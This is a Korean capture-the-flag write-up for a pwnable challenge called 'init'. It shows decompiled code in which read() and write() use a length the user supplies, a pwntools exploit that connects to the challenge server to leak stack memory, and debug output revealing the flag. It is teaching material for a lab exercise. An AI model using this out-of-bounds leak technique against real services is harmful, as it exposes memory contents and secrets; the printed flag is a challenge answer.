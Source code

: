 `#read` `#leak`

# init
1. [Description](#description)
2. [일단 실행](#일단-실행)
3. [취약점 파악](#취약점-파악)
4. [exploit.py](#exploit.py)
5. [FLAG](#flag)

## Description
> 서버 바이너리에는 정상적으로 플래그가 있습니다  
> nc 121.170.91.17 9901  
> [init](https://drive.google.com/uc?authuser=0&id=1IIQkcbDemlX3ceIQhWfu-o5zeqcdh3_D&export=download)

## 일단 실행
```
# ./init
Do you want to do?
[R]ead
[W]rite
[E]xit
>>>
```
메뉴를 보니  
읽고 쓰고가 가능해보임

## 취약점 파악
```
    44          printf("length: ", &v5);                // [R]ead
    45          __isoc99_scanf("%d", &len);
    46          v3 = &buf;
    47          read(0, &buf, len);
    48        }
    49        if ( v5 != 'W' )
    50          break;
    51        printf("length: ", &v5);                  // [W]rite
    52        __isoc99_scanf("%d", &len);
    53        v3 = &buf;
    54        write(1, &buf, len);
```
`[R]ead` 와 `[W]rite` 는 길이 len 을 직접 사용자로부터 입력받는다.  
메모리 leak 이 가능해보임

## exploit.py
```
     1  from pwn import *
     2
     3  r = remote('121.170.91.17', 9901)
     4  r.recvuntil('>>> ')
     5  r.send('W')
     6  r.recvuntil(': ')
     7  r.sendline(str(0x50-8+1))
     8  r.interactive()
```
## FLAG

```
[DEBUG] Sent 0x1 bytes:
    'W' * 0x1
[DEBUG] Received 0x8 bytes:
    'length: '
[DEBUG] Sent 0x3 bytes:
    '73\n'
[*] Switching to interactive mode
[DEBUG] Received 0x49 bytes:
    00000000  68 81 67 18  26 7f 00 00  ff b5 f0 00  00 00 00 00  │h·g·│&···│····│····│
    00000010  01 00 00 00  00 00 00 00  ed 6a 45 ae  6f 55 00 00  │····│····│·jE·│oU··│
    00000020  64 69 6d 69  7b 41 31 31  30 63 41 74  33 5f 31 73  │dimi│{A11│0cAt│3_1s│
    00000030  5f 24 6f 5f  31 6d 70 30  72 74 40 6e  37 7d 00 00  │_$o_│1mp0│rt@n│7}··│
    00000040  c0 cc 26 da  ff 7f 00 00  00                        │··&·│····│·│
    00000049
h\x81g\x18&\x7f\x00\x00\xff\xb5\x00\x00\x00\x00\x00\x00\x00\x00\x00jE\xaeoU\x00\x00dimi{A110cAt3_1s_$o_1mp0rt@n7}\x00\x00&\x7f\x00\x00\x00
```
